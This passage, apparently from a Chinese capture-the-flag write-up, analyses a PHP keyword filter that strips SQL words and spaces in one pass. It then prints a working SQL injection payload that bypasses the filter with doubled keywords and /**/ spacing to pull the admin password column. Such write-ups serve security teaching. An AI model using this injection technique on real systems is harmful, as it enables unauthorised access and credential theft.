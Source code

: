   ```php+html
  </html>
  ```

  1. 这里又发现了新的php页面antiinject.php
  2. 修改useragent为`Xlcteam Browser`来访问so.php页面
  3. 这里存在可能的sql注入漏洞，继续查看antiinject.php

- antiinject.php

   ```php+html
   <?php
   function antiinject($content) {
    $keyword = array(
        "select",
        "union",
        "and",
        "from",
        ' ',
        "'",
        ";",
        '"',
        "char",
        "or",
        "count",
        "master",
        "name",
        "pass",
        "admin",
        "+",
        "-",
        "order",
        "="
    );
    $info = strtolower($content);
    for ($i = 0; $i <= count($keyword); $i++) {
        $info = str_replace($keyword[$i], '', $info);
    }
    return $info;
   } ?>
   ```
   - 这里发现：

   > 本网站对部分关键字与空格进行了过滤，因此对于关键词使用双重绕过，空格用/**/代替 

   - sql注入语句

     1. 在post中提交数据：（这里省略了猜测字段列数的过程）

        ```mssql
        soid=0/**/unUNIONion/**/seSELECTlect/**/1,userpasPASSs,3,4/**/fFROMrom/**/adADMINmin
        ```

        得到返回：

        > 102 117 99 107 114 117 110 116 117
